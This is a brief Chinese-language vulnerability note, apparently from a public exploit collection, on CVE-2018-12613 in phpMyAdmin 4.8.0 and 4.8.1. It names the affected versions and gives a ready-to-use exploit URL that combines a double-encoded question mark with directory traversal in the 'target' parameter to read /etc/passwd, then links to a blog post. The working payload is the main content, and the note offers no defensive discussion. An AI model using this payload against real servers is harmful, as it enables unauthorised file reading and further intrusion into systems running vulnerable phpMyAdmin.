 #漏洞编号
CVE-2018-12613

#影响版本
phpMyAdmin 4.8.0和4.8.1受到影响。

#利用
http://ip:8080/phpMyAdmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd


#更多
https://blog.csdn.net/qq_33020901/article/details/80829269